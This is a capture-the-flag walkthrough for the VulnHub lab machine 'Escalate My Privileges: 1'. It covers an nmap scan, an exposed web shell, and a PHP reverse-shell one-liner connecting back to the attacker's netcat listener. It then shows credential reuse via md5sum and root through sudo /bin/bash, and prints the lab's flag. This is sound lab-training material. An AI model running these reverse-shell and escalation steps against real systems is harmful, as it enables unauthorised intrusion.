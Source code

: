 # Escalate My Privileges: 1

- [Tools](#tools)
- [Gaining Access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

Machine: [https://www.vulnhub.com/entry/escalate-my-privileges-1,448/](https://www.vulnhub.com/entry/escalate-my-privileges-1,448/)

## Tools

- [NMap](https://NMap.org)
- netcat
- md5sum

## Gaining Access

- After Running the VM as bridged connection, I checked my gateway page to find IP. In my case ip is `192.168.0.11`.
- Scan with `NMap` gives some open ports.
- Nmap with this command `nmap -A 192.168.0.11` gives an url `http://192.168.0.11/phpbash.php`.
- It’s a shell on that link. We can execute command as user `apache`.
- Running this command `php -r '$sock=fsockopen("192.168.0.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");'` with my ip port gives a `netcat` shell to my listner `nc -lvnp 1337`.
- We got shell as `armour`.

## Priviledge Escalation

- On `/home/armour` directory there is a file named `Credentials.txt`. Inside it we get password `md5(rootroot1)`.
- Spawn tty shell, convert `md5sum` of the `rootroot1` to use as password. Then login as `armour` with `md5sum` of `rootroot1`.
- Using `sudo -l` command shows `/bin/bash` could be used to get root shell. 
- Used `sudo /bin/bash` command to `root`.
- We can get flag inside `/root/flag.txt` by using command.`cat /root/flag.txt` The flag is  `628435356e49f976bab2c04948d22fe4`.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)

